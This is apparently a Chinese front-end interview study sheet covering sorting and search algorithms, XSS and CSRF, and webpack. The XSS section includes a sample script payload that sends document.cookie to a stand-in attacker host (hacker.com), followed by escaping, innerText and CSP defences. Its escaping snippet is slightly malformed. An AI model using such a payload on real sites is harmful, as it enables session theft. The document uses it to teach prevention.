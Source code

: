 ### 算法

- 排序（冒泡、选择、计数、快速、插入、归并）
  ```

  ```
- 二分查找
- 翻转二叉树

### 安全

- 什么是 XSS 攻击？如何预防?
  ```
   div.innerHTML=userComment //userComment内容是<script>$.get('http://hacker.com/?cookie='+document.cookie)</script>
   //而已代码就执行了
  ```
  - 预防：不要使用 innerHTML,改成 innerText,script 就不会执行
  - 用 innerHTML，字符过滤，'<'替换成'&lt'
  - 用 innerHTML，字符过滤，'>'替换成'&gt'
  - 用 innerHTML，字符过滤，'&'替换成'&amp'
  - 用 innerHTML，字符过滤，'"'替换成'&quot'
  - 用 innerHTML，字符过滤，'''替换成'&#39'
    ```
    div.innerHTML=useComment.replace(/>/g,'&gt').replace(/<\/g,'&lt')...
    ```
  - 使用 CSP(chrom 主动防御)
- 什么是 CSRF 攻击，如何预防？
  - 过程
    - 用户在 qq.com
    - 用户切换到 haacker.com
    - hacker.com 发送一个 qq.com 的请求获取用户的信息
    - 用户的请求信息就被 hacker 偷走了
    - 不知不觉中做了请求的内容，用户没有发这个请求 hacker 伪造了用户发请求的假象
  - 避免
    - 检查 referer，qq.com 可以拒绝来自 hacker.com 的请求
    - 使用 csrf_token 来解决

### webpack

- 转移后的文件过大怎么办？
  - 使用 code split
  - 写法 import('xxx').then(xxx=>console.log(xxx))
  - xxx 模块就是按需加载
- 转义速度过慢
  -
- webpack loader
  - 从右到左，链式执行
  - 上一个 Loader 的处理结果给下一个接着处理
  - node module 写法
  - module 依赖
  - return && this.callback()

